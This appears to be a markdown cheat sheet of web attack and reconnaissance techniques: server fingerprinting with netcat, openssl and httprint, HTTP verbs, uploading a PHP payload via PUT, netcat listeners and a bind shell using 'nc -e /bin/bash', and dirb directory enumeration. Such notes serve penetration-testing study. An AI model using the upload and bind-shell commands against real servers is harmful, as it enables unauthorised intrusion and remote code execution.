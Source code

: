 # Web Attacks

## Fingerprinting with Netcat

Netcat can be used to fingerprint the web server, it acts as both client and server.

```
nc <target> 80
HEAD / HTTP/1.0
```
Limitation with Netcat is that it cannot connect to HTTPS connections, So to connect to the HTTPS connection we can use **_OpenSSL_** command line tool.

## Fingerprinting with OpenSSL

```
openssl s_client -connect target.site:443
HEAD / HTTP/1.0
```

## Fingerprinting with Httprint

**_Httprint_** is a web server fingerprinting tool that uses a signature-based technique to identify web servers.

```
httprint -P0 -h <target hosts> -s <signature file>
```


* -P0 : Do not ping.
* -h  : Target hosts.
* -s  : set signature file to use.
* signature file location : ```/usr/share/httprint/signature.txt```

## HTTP Verbs

The most common HTTP methods are:

* GET   : used to request resources from web server
* POST  : used to submit form data to web server
* HEAD  : only asks for headers of the response, excludes body
* DELETE: used to remove a file/data from the server
* PUT   : used to **upload** file to the server
    
    To exploit the **PUT** method attacker needs to know the exact file uploading to the server. This can be done by using **_wc_** (word count) utility with **_-m_** parameter in linux.
    
    ```wc -m payload.php```
    
    After creating the payload and determining its size, use the following command to upload the payload to the server.
    
    ```
    nc target.com 80
    PUT /payload.php HTTP/1.0
    Content-type  : text/html
    Content-length  : 20
    
    <?php phpinfo(); ?>
    ```

## Netcat

```nc -lvp 8888``` Listener client

```nc -v 127.0.0.1 8888``` Server

Netcat udp connection

```nc -lvup 9999``` Listener client

```nc -vu 127.0.0.1 9999``` Server

Send or receive data through a file

```nc -lvp 8888 > received.txt``` Listener client

```echo "Hello" | nc -v 127.0.0.1 8888``` Server

Obtain remote **Bind Shell** using **Netcat**

```nc -lvp 8888 -e /bin/bash``` Listener client

```nc -v 127.0.0.1 8888``` Server

## Dirb

Dirb is a command line tool for enumerating directories and files.

Basic usage command, when not specified wordlist it uses by default wordlist for enumeration.

```dirb http://target.com```

Dirb wordlist location

```/usr/share/dirb/wordlists```

Usage with custom wordlist

```dirb http://target.com /usr/share/dirb/wordlists/common.txt```

[Seclists](https://github.com/danielmiessler/SecLists) wordlists collection

Dirb options:

```-a : custom user agent``` [useragents list](http://useragentstring.com/pages/useragentstring.php)

```dirb http:target.com -a "Mozilla/5.0 (Windows NT 6.1; WOW64; rv:77.0) Gecko/20190101 Firefox/77.0"```

```
-p : proxy option
dirb http://192.168.121.12 -p http://127.0.0.1:8080
```

```
-c : authentication using cookie
dirb http://192.168.121.12 -p http://127.0.0.1:8080 -c "COOKIE:XYZ"
```

```
-u : basic HTTP authentication, uses username and password combination
dirb http://192.168.121.12 -p http://127.0.0.1:8080 -u "admin:password"
```
```
-H : add custom header to HTTP request
dirb http://192.168.121.12 -p http://127.0.0.1:8080 -H "HeaderName: HeaderValue"
```

```-r :Don't search recursively```

```
-z : delay timing
dirb http://192.168.121.12 -z 1000
```

```
-S : silent mode
dirb http://192.168.121.12 -S
```

```
-X : extensions
dirb http://192.168.121.12 -X ".php,.bak"

-x : extensions list
dirb http://192.168.121.12 -x extensions.txt
```

